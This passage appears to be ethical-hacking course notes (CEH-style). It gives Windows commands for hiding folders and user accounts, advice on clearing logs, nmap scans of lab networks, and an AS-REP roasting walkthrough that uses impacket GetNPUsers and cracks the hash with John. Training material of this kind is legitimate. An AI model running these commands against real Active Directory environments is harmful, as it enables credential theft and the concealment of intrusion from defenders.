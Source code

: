 #### 4.6 Hiding Artifacts in Windows and Linux

**Windows**
- Create directory:
  - `mkdir test`
- Hide folder:
  - `attrib +h +r +s test`
- Unhide folder:
  - `attrib -s -h -r test`
- Hide user accounts:
  - `net user test /add`
  - `net user test /active:yes`
  - `net user test /active:no`

**Linux**
Create hidden file (prefix with `.`).  

- View hidden files:
  - `ls -la`

#### 4.7 Clear Windows Logs using CCleaner
Useful for clearing logs, temporary files, and other artifacts.

[Download CCleaner | Clean, optimize & tune up your PC, free!](https://www.ccleaner.com/ccleaner/download)

---

### 5. Active Directory (AD) Attacks

#### Task 1: Perform Initial Scans to Obtain Domain Controller IP and Domain Name

The initial scan in AD enumeration is crucial as it identifies the network structure, open ports, and services. This information helps ethical hackers map the AD environment, uncover vulnerabilities, and plan targeted attacks.

- Initial Scan:
  - `nmap 10.10.1.0/24`
- Detailed scan:
  - `nmap -A -sC -sV 10.10.1.22`

We get the domain name and FQDN.

#### Task 2: Perform AS-REP Roasting Attack

- AS-REP roasting targets AD accounts without Kerberos pre-authentication (DONT_REQ_PREAUTH). Attackers request a TGT for these accounts, capture the response, and crack it offline:
  - `python3 GetNPUsers.py CEH.com/ -no-pass -usersfile /root/ADtools/users.txt -dc-ip 10.10.1.22
    - `GetNPUsers.py`: Python script to retrieve AD user information.
    - `CEH.com/`: Target AD domain.
    - `-no-pass`: Flag to find user accounts not requiring pre-authentication.
    - `-usersfile ~/ADtools/users.txt`: Path to the file with the user account list.
    - `-dc-ip 10.10.1.22`: IP address of the DC to query.
  - impacket-GetNPUsers -dc-ip 10.10.10.161 -request -no-pass -usersfile users.txt  htb.local/
  - impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/
- If a user (e.g., **Joshua**) has **DONT_REQUIRE_PREAUTH**, we can extract the password hash:
  - `echo '[HASH]' > joshuahash.txt`
- Crack with John:
  - `john --wordlist=/root/ADtools/rockyou.txt joshuahash.txt`
